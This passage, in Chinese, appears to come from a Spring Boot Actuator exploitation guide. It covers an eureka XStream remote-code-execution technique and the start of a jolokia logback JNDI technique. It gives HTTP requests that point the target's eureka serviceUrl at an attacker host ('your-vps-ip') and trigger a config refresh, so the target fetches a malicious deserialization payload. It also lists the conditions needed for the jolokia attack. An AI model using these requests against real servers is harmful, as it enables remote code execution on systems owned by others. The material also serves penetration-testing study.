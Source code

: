 spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```

##### 步骤四：刷新配置

spring 1.x

```php
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/refresh
Content-Type: application/json
```

#### 漏洞原理：

1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

#### 漏洞分析：

[Spring Boot Actuator从未授权访问到getshell](https://www.freebuf.com/column/234719.html)

#### 漏洞环境：

[repository/springboot-eureka-xstream-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-eureka-xstream-rce)

正常访问：

```php
http://127.0.0.1:9093/env
```

### 0x04：jolokia logback JNDI RCE

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
- 普通 JNDI 注入受目标 JDK 版本影响，jdk &lt; 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

#### 利用方法：

##### 步骤一：查看已存在的 MBeans
